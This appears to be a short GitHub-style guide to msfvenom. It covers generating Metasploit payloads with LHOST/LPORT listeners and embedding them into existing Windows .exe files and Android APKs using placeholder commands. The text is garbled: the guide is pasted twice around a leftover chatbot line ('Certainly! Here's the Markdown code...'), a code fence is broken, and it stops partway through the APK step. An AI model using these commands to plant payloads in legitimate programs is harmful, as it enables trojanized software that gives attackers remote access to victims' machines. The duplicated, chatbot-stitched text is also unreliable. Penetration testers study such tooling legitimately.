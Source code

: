 # Msfvenom Practical Guide

## Generating Standalone Payloads and Listeners

Msvenom is a powerful tool in the Metasploit framework used for payload generation. It allows you to create payloads for various platforms.

### Basic Payload Generation

To generate a basic payload for a specific platform, use the following command:

```bash
msfvenom -p [payload] -f [format] LHOST=[your_IP] LPORT=[port] -o [output_filename]
```
      Replace [payload] with the desired payload.
      Specify the format with -f (e.g., exe, apk, etc.).
      Set your IP with LHOST and the desired port with LPORT.
      Save the output with -o [output_filename].

#Embedding Payloads to exe, APK

Embedding into Windows Executable (exe)

You can embed a payload into an exe file using the following steps:

 Generate the payload as discussed earlier.
    Find a suitable exe file for embedding.

`msfvenom -x [existing_exe] -k -p [payload] LHOST=[your_IP] LPORT=[port] -o [output_filename]`

Replace [existing_exe] with the path to the existing exe file.

# Certainly! Here's the Markdown code for your .md file:

markdown

# Msfvenom Practical Guide

## Generating Standalone Payloads and Listeners

Msvenom is a powerful tool in the Metasploit framework used for payload generation. It allows you to create payloads for various platforms.

### Basic Payload Generation

To generate a basic payload for a specific platform, use the following command:

```bash
msfvenom -p [payload] -f [format] LHOST=[your_IP] LPORT=[port] -o [output_filename]

    Replace [payload] with the desired payload.
    Specify the format with -f (e.g., exe, apk, etc.).
    Set your IP with LHOST and the desired port with LPORT.
    Save the output with -o [output_filename].
```
# Embedding Payloads to exe, APK

Embedding into Windows Executable (exe)

You can embed a payload into an exe file using the following steps:

    Generate the payload as discussed earlier.
    Find a suitable exe file for embedding.

`msfvenom -x [existing_exe] -k -p [payload] LHOST=[your_IP] LPORT=[port] -o [output_filename]`

Replace [existing_exe] with the path to the existing exe file.

# Embedding into Android Application (APK)

Embedding into an APK involves using the Metasploit resource script.

    Generate the payload.
    Create a resource script (e.g., embed.rc) with the following:
